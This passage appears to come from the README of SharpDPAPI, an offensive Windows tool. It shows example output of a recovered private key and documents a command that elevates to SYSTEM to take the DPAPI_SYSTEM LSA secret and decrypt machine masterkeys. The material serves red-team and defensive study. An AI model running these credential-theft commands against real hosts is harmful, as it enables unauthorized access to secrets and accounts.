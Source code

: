         Hashlen: 160
        HMAC: e4fa2d8144af651a86de20efa5771d20

    [*] Private key file 824020b98d4a03d0d23392fb673067eb_6c712ef3-1467-4f96-bb5c-6737ba66cfb0 was recovered

    [*] PKCS1 Private key

    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEAtt/LpUFCjeE2YBmwvhkAI2R8DfX...(snip)...
    -----END RSA PRIVATE KEY-----

    [*] Certificate

    -----BEGIN CERTIFICATE-----
    MIIC1jCCAb6gAwIBAgIQfSNOUmInprRC0lEVt7u...(snip)...
    -----END CERTIFICATE-----


#### triage

The **triage** command runs the user [credentials](#credentials), [vaults](#vaults), [rdg](#rdg), and [certificates](#certificates) commands.


### Machine Triage

#### machinemasterkeys

The **machinemasterkeys** command will elevated to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. It will return a set of masterkey {GUID}:SHA1 mappings.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).

    C:\Temp>SharpDPAPI.exe machinemasterkeys

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Machine DPAPI Masterkey File Triage

    [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
    [*] RevertToSelf()

    [*] Secret  : DPAPI_SYSTEM
    [*]    full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
    [*]    m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3


    [*] SYSTEM master key cache:

    {1e76e1ee-1c53-4350-9a3d-7dec7afd024a}:4E4193B4C4D2F0420E0656B5F83D03754B565A0C
    ...(snip)...
